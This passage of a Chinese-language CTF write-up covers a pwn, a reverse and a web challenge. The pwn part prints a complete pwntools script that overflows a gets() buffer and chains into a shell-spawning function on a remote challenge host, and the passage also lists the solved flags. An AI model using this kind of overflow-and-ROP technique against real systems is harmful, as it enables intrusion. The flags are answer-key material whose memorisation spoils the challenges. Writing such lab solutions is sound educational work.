> {
>   setvbuf(stdout, 0, 2, 0);
>   setvbuf(stdin, 0, 2, 0);
>   puts("Welcome. Try to hack me.");
>   vulnerable();
>   return 0;
> }
> ```

可以看到，程序执行的流程是：main() -> vulnerable()

> ```c
> __int64 vulnerable()
> {
>   _BYTE v1[48]; // [rsp+0h] [rbp-30h] BYREF
> 
>   puts("Build your chain:");
>   return gets(v1);
> }
> ```

从`Build your chain:`可见，这个程序设计的目的就是被攻击。

重点在于**`gets(v1);`**是一个读取输入但毫无防护的函数。通过这个输入，我们可以改变整个程序的走向：

> 1. 在输入的时候使用一个很长的数据突破缓冲区的上限，接下来的输入就会被加载到缓冲区相邻的内存中
> 2. 依据输入在栈上的偏移，将我们下一步要执行的函数的地址输入到目标内存
> 3. 通过这个方式，跳转到`decrypt_cmd()`，对cmd命令解密
> 4. 跳转到`get_shell()`，当`system(cmd);`被执行，我们就拿到了这个程序的终端权限
> 5. 在终端使用命令得到flag

以下是攻击的完整代码：

```python
from pwn import *

def try_chain_attack():
    p = remote('106.52.40.246', 32633)
    p.recvuntil(b"Build your chain:")

    offset = 0x38
    decrypt_cmd_addr = 0x401196
    get_shell_addr = 0x4011F2

    payload = b'A' * offset + p64(decrypt_cmd_addr) + p64(get_shell_addr)

    print("尝试链式调用攻击...")
    p.sendline(payload)
    return p


p = try_chain_attack()
p.interactive()
```


**flag{d546576e-9edc-41a7-8b78-ef2894bea17f}**

---


## Reverse

### **[Easy] 签到**

其实完全不懂Reverse，因为标着签到所以才想要试试。

下载附件之后发现是一个C语言文件：

```c
#include <stdio.h>
#include <stdlib.h>

char flag_enc[38] = {
    0x9d,0xd6,0x38,0x70,0x07,0x53,0xe6,0x84,0x70,0x38,0x83,0x1e,0x08,0x79,0xed,0x03,0x1b,0x4c,0x9f,0x3f,0x91,0xdf,0xc9,0x45,0x8d,0x19,0x43,0xfb,0x97,0xc2,0x02,0x39,0xda,0xd5,0x66,0x07,0xbd,0xe5
};

int main(void) {
    srand(2025);
    printf("This is the first part of flag:\n");
    for (int i = 0; i < 19; i++) {
        char decoded_char = flag_enc[i] ^ (rand() % 256);
        printf("%c", decoded_char);
    }
    printf("\n");
    printf("This is the second part of flag:\n");
    for (int i = 19; i < 38; i++) {
        char decoded_char = flag_enc[i] ^ (rand() % 256);
        printf("%c", decoded_char);
    }
    printf("\n");
    printf("Tips: If you see some non-printable characters, try to run the program on different platforms.\n");
    return 0;
}
```

哇！这看起来像是异或解密然后输出flag的程序欸！按道理来说直接运行就可以得到flag，这就是签到题吗。



然而运行之后却发现flag被分成两部分输出，只有前一半可以辨认：**flag{r@nd_d1ff_0n_d**

但是程序给出了提示：

>  **Tips: If you see some non-printable characters, try to run the program on different platforms.**
>
> **（提示：如果您看到一些不可打印的字符，请尝试在不同的平台上运行该程序。）**

在不同的平台运行同样的C语言代码，难道会有不同的结果吗？

**Windows中，常用的编译器是MinGW。而Linux中，常用的编译器是GCC。**

不同的编译器可能会产生不同的运行结果。所以我们找一个使用GCC的在线C语言运行网站试试。

[GCC编译的在线C语言编辑编译网站](https://www.cainiaojc.com/tool/c/)


果然得到了后一半flag：**Iff3r9n7_pl4tf0rm5}**。和之前得到的前一半合并就可以得到flag：

**flag{r@nd_d1ff_0n_dIff3r9n7_pl4tf0rm5}**

---


## Web

### **[Easy] Crossy Road**

打开靶机，发现是一个方块过马路游戏。既然标着Easy，那么flag应该就在这个网页的某个部分。

先尝试最直接的办法：F12然后搜索“flag”：



**Wm14aFozdGpNVGMyTlRaallTMWxPVGMzTFRRek56QXRZVGswWlMweE1Ua3haR0l5WkdWa1lXTjkK**

居然真的有一个flag！不过不符合“flag{...}”的格式，应该是编码或者加密过了。看字符串的样子，非常像最近频繁遇到的Base64编码。

[直接找个在线Base编码解码网站试试好了！](https://www.toolhelper.cn/EncodeDecode/Base64)

解码得到：**ZmxhZ3tjMTc2NTZjYS1lOTc3LTQzNzAtYTk0ZS0xMTkxZGIyZGVkYWN9**

看起来还是很奇怪，怎么会这样！

但是这个结果看起来也很像是Base64编码，会不会是双重Base64编码？我觉得很有可能。

事实也正是如此。只要再解码Base64，就可以得到flag：

**flag{c17656ca-e977-4370-a94e-1191db2dedac}**
